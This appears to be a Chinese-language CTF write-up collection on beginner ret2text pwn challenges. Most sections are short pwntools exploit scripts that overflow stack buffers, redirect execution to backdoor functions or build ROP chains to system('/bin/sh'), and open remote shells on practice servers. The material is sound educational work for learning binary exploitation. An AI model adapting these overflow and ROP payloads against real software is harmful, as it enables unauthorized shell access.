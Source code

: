 ```yaml
---
title: PWN入门-ret2text做题
date: 2024-01-26 22:32:43
tags: PWN
mathjax: true
---
```


# PWN入门-ret2text做题

## [SWPUCTF 2021 新生赛]gift_pwn

```bash
checksec 文件名
```

* 开启堆栈不可执行保护(NX)，不会把堆栈上数据当成指令来执行。

* 没有canary保护，可利用栈溢出来修改eip。

* PIE地址随机花没有开启。

```python
from pwn import *
p=remote('node4.anna.nssctf.cn',28708)
payload=b'a'*0x10+b'a'*8+p64(0x4005B6) #32位+4 64位+8
p.sendline(payload)
p.interactive()
```

## [CISCN 2019华北]PWN1

```python
from pwn import *
context(log_level='debug',arch='amd64',os='linux')
p=process('./attachment')
payload=b'a'*0x2c+p64(0x41348000)
p.sendline(payload)
p.interactive()
```

## [BJDCTF 2020]babystack2.0

```python
from pwn import *
context(log_level='debug',arch='amd64',os='linux')
p=remote('node4.anna.nssctf.cn',28830)
p.recvuntil("[+]Please input the length of your name:")
p.sendline(b'-1')
p.recvuntil("[+]What's u name?")
bin_sh=p64(0x400726)
payload=flat([b'a'*0x10,b'a'*8,bin_sh])
p.sendline(payload)
p.interactive()
```

## [BJDCTF 2020]babystack

```python
from pwn import *
context(log_level='debug',arch='amd64',os='linux')
p=remote('node4.anna.nssctf.cn',28487)
p.recvuntil("[+]Please input the length of your name:")
p.sendline(b'999')
p.recvuntil("[+]What's u name?")
bin_sh=p64(0x4006E6)
payload=flat([b'a'*0x10,b'a'*8,bin_sh])
p.sendline(payload)
p.interactive()
```

## [NISACTF 2022]ezstack

```python
from pwn import *
context(log_level='debug',arch='i386',os='linux')
p=remote('node5.anna.nssctf.cn',28073)
p.recvuntil("Welcome to NISACTF")
system_addr=p32(0x8048512)
bin_sh_addr=p32(0x804a024)
payload=flat([b'a'*0x48,b'a'*4,system_addr,bin_sh_addr])
p.sendline(payload)
p.interactive()
```

## [watevrCTF 2019]Voting Machine 1

```python
from pwn import *
context(log_level='debug',arch='amd64',os='linux')
p=remote('node5.anna.nssctf.cn',28446)
p.recvuntil('Vote: ')
backdoor_addr=p64(0x400807)
payload=flat([b'a'*0x2,b'a'*8,backdoor_addr])
p.sendline(payload)
p.interactive()
```

## [GFCTF 2021]where_is_shell

“/bin/sh”等同于“sh”等同于“\$0”，“\$0”为0x2430，正好tips函数中有个花指令可以利用。

构造rop链：

栈对齐随便打一个ret:

```bash
ROPgadget --binary shell --only "ret"
```

system由rdi传参，找pop_rdi_ret型gadget：

```bash
ROPgadget --binary shell --only "pop|ret"
```

将\$0地址压栈，再从plt劫持system地址打。

```python
from pwn import *
import struct
context(log_level='debug',arch='amd64',os='linux')
elf=ELF('./shell')
p=remote("node4.anna.nssctf.cn",28367)
p.recvuntil("zltt lost his shell, can you find it?")
ret_addr=p64(0x400416)
pop_rdi_ret_addr=p64(0x4005e3)
bin_sh_addr=p64(0x400541)
system_addr=p64(elf.plt["system"])
payload=flat([b'a'*0x10,b'a'*8,ret_addr,pop_rdi_ret_addr,bin_sh_addr,system_addr])
p.sendline(payload)
p.interactive()
```

## [HNCTF 2022 Week1]easyoverflow

略。

## [NSSCTF 2022 Spring Recruit]R3m4ke?

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
p=remote('node4.anna.nssctf.cn',28510)
stack_overflow=cyclic(0x20+8)
shell_addr=p64(0x40072C)
payload1=flat([stack_overflow,shell_addr])
p.recvuntil("[+] Welcome to NSS , this is a very simple PWN question for getting started>")
p.sendline(payload1)
p.interactive()
```

## [WUSTCTF 2020]getshell

```python
from pwn import *
context(log_level='debug',os='linux',arch='i386')
p=remote("node5.anna.nssctf.cn",28644)
elf=ELF('./attachment')
stack_overflow=cyclic(0x18+4)
shell_addr=p32(elf.sym["shell"])
payload1=flat([stack_overflow,shell_addr])
p.sendline(payload1)
p.interactive()
```

## [HNCTF 2022 Week1]ezr0p32

32位函数传参都在栈上，不牵扯寄存器。栈溢出后直接打system，内部先pop出call压入的ebp，所以先填充一个双字的垃圾，栈里第二个位置开始即为传参。

```python
from pwn import *
context(log_level='debug',os='linux',arch='i386')
elf=ELF('./attachment')
p=remote("node5.anna.nssctf.cn",28745)
p.recvuntil("please tell me your name")
payload1=b'/bin/sh'
p.sendline(payload1)
p.recvuntil("now it's your play time~")
stack_overflow=b'a'*(0x1c+4)
system_addr=p32(elf.sym["system"])
skip_ebp=b'aaaa'
buf_addr=p32(elf.sym["buf"])
payload2=flat([stack_overflow,system_addr,skip_ebp,buf_addr])
p.sendline(payload2)
p.interactive()
```

## [SWPUCTF 2022 新生赛]有手就行的栈溢出

```python
from pwn import *
context(log_level='debug',arch='amd64',os='linux')
elf=ELF('./attachment')
p=remote("node5.anna.nssctf.cn",28415)
stack_overflow=b'a'*(0x20+8)
fun_addr=p64(elf.sym["fun"])
payload1=flat([stack_overflow,fun_addr])
p.sendline(payload1)
p.interactive()
```

## [HDCTF 2023]pwnner

```python
from pwn import *
from ctypes import *
context(log_level='debug',arch='amd64',os='linux')
p=remote("node5.anna.nssctf.cn",28292)
elf=ELF('./attachment')
ctype=cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
ctype.srand(0x39)
payload1=str(ctype.rand()).encode()
p.recvuntil("you should prove that you love pwn,so input your name:")
p.sendline(payload1)
stack_overflow=cyclic(0x40+0x8)
ret_addr=p64(0x40028b)
backdoor_addr=p64(elf.sym["get_shell"])
payload2=flat([stack_overflow,ret_addr,backdoor_addr])
p.recvuntil("ok,you have a little cognition about pwn,so what will you do next?")
p.sendline(payload2)
p.interactive()
```

